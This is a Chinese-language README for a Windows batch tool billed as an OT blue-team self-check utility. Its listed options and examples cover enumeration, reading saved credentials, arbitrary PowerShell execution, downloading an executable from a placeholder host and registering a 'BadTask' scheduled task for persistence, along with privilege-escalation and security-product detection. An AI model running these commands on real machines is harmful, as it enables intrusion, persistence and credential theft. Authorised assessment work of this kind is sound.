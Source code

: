 **这是一个OT Blueteam用于Windows系统的上位机及内网自检工具。**

## 功能概述

这个工具集成了多种常用的功能，包括：
- 系统信息收集
- 网络信息收集
- 用户账户信息
- 文件操作
- 权限提升检测
- 网络扫描
- 安全产品检测
- 持久化功能

## 基本用法

```
BlueTeam-ICS-Station.bat -h           查看帮助信息
BlueTeam-ICS-Station.bat -w           查看系统进程
BlueTeam-ICS-Station.bat -all         一键内网信息收集
BlueTeam-ICS-Station.bat -kill 进程名  杀死指定进程
```

## 详细功能说明

### 信息收集

```
BlueTeam-ICS-Station.bat -ip          显示所有IP配置信息
BlueTeam-ICS-Station.bat -a           显示系统信息
BlueTeam-ICS-Station.bat -b           显示本地计算机上的所有服务
BlueTeam-ICS-Station.bat -c           显示计划任务的详细信息
BlueTeam-ICS-Station.bat -d           显示所有工作站统计信息
BlueTeam-ICS-Station.bat -e           显示本地计算机上的用户账户
BlueTeam-ICS-Station.bat -f           显示本地管理员组的成员
BlueTeam-ICS-Station.bat -g           显示所有监听端口和关联的进程信息
BlueTeam-ICS-Station.bat -i           显示本地计算机上的所有共享资源
BlueTeam-ICS-Station.bat -j           使用wmic显示所有共享资源的名称、路径和状态
BlueTeam-ICS-Station.bat -k           使用route print显示路由表
BlueTeam-ICS-Station.bat -l           使用arp -a显示所有ARP缓存条目
BlueTeam-ICS-Station.bat -m           使用whoami /all显示有关当前用户的详细信息
BlueTeam-ICS-Station.bat -n           显示工作站配置信息
BlueTeam-ICS-Station.bat -o           使用fsutil fsinfo drives显示所有可用驱动器
BlueTeam-ICS-Station.bat -dns         显示DNS解析器缓存
BlueTeam-ICS-Station.bat -firewall    显示所有防火墙规则
BlueTeam-ICS-Station.bat -procs       显示详细的进程信息，包括命令行
BlueTeam-ICS-Station.bat -creds       显示凭据管理器中保存的凭据
```

### 文件操作

```
BlueTeam-ICS-Station.bat -cc 源路径 目标路径    复制文件
BlueTeam-ICS-Station.bat -cv 源路径 目标路径    移动文件
BlueTeam-ICS-Station.bat -x 文件路径 内容       创建文件并写入内容
BlueTeam-ICS-Station.bat -v 目录路径           查看指定目录中的文件
```

### 高级功能

```
BlueTeam-ICS-Station.bat -ps "命令"            执行PowerShell命令
BlueTeam-ICS-Station.bat -download URL 保存路径  从URL下载文件
BlueTeam-ICS-Station.bat -persist 任务名 命令    创建计划任务以实现持久化
BlueTeam-ICS-Station.bat -privesc              检查权限提升机会
BlueTeam-ICS-Station.bat -netscan              扫描本地网络中的活动主机
BlueTeam-ICS-Station.bat -av                   检测系统上安装的安全产品
```

## 使用示例

### 基本信息收集
```
BlueTeam-ICS-Station.bat -ip
```
显示当前系统的IP配置信息，包括IP地址、子网掩码、网关等。

### 下载文件
```
BlueTeam-ICS-Station.bat -download http://abc.com/1.exe c:\temp\1.exe
```
从指定URL下载文件并保存到本地路径。

### 检查权限提升机会
```
BlueTeam-ICS-Station.bat -privesc
```
检查系统中可能存在的权限提升向量，如AlwaysInstallElevated注册表项、未引用的服务路径等。

### 创建持久化
```
BlueTeam-ICS-Station.bat -persist "BadTask" "c:\temp\1.exe"
```
创建一个名为"BadTask"的计划任务，在用户登录时执行指定命令。

### 扫描本地网络
```
BlueTeam-ICS-Station.bat -netscan
```
扫描本地网络中的活动主机和设备，并检查常见开放端口。

### 检测安全产品
```
BlueTeam-ICS-Station.bat -av
```
检测系统上安装的防病毒软件、EDR和其他安全产品。

## 注意事项

- 本工具仅用于授权的OT安全蓝队评估
- 在使用前请确保获得适当的授权
- 某些功能可能会触发安全产品的告警
- 建议在测试环境中先行测试功能
